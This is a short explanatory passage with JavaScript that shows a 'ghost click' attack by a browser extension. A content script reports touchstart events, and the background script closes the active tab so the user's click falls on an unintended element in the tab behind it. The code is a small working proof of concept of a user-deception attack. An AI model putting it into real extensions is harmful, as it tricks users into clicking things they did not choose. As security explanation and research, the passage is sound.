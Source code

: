 The ghost click occurs when the `click` event is forgotten, and problems may arise if they are captured by an element which was not supposed to. The idea of the attack is to close the tab when `touchstart` is fired, and let the `click` be captured by the underlying tab. The content script listens for this event as it can access the DOM, and alerts its background script:

```js
var elem = document.getElementById(’someElementInThePage’);
elem.ontouchstart = function(){
  chrome.runtime.sendMessage({
    msg: ’ok’
  });
}
```

The background script immediately closes the current tab, whenever it received the 'ok'. If the user clicked, the `click` event will be then fired on a unexpected element on the new foreground tab.

```js
function handleMessage(request, sender, sendResponse) {
  if (request.msg == "ok"){
    chrome.tabs.query({active:true}, function(tab){
      chrome.tabs.remove(tab[0].id)
    });
  }
}
chrome.runtime.onMessage.addListener(handleMessage);
```

This attack made possible by extensions because they have the ability to close any tab, as long as it has the `tab` permissions. However, a script in a web page could not do it, because they cannot close a window or a tab that they did not open themselves.
